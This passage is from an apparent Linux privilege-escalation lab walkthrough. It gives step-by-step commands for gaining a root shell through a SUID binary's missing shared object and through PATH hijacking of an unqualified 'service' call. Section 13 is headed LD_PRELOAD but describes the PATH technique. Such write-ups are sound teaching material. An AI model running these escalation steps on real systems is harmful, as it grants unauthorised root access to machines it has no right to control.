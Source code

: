 ```bash
mkdir /home/user/.config
```

Example shared object code can be found at /home/user/tools/suid/libcalc.c. It simply spawns a Bash shell. Compile the code into a shared object at the location the suid-so executable was looking for it:

```bash
gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/tools/suid/libcalc.c
```

Execute the suid-so executable again, and note that this time, instead of a progress bar, we get a root shell.

```bash
/usr/local/bin/suid-so
```

## 13. SUID / SGID Executables - LD_PRELOAD

The /usr/local/bin/suid-env executable can be exploited due to it inheriting the user's PATH environment variable and attempting to execute programs without specifying an absolute path.

First, execute the file and note that it seems to be trying to start the apache2 webserver:

```bash
/usr/local/bin/suid-env
```

Run strings on the file to look for strings of printable characters:

```bash
strings /usr/local/bin/suid-env
```

One line ("service apache2 start") suggests that the service executable is being called to start the webserver, however the full path of the executable (/usr/sbin/service) is not being used.

Compile the code located at /home/user/tools/suid/service.c into an executable called service. This code simply spawns a Bash shell:

```bash
gcc -o service /home/user/tools/suid/service.c
```

Prepend the current directory (or where the new service executable is located) to the PATH variable, and run the suid-env executable to gain a root shell:

```bash
PATH=.:$PATH /usr/local/bin/suid-env
```

## 14. SUID / SGID Executables - Abusing Shell Features (#1)

The /usr/local/bin/suid-env2 executable is identical to /usr/local/bin/suid-env except that it uses the absolute path of the service executable (/usr/sbin/service) to start the apache2 webserver.

Verify this with strings:
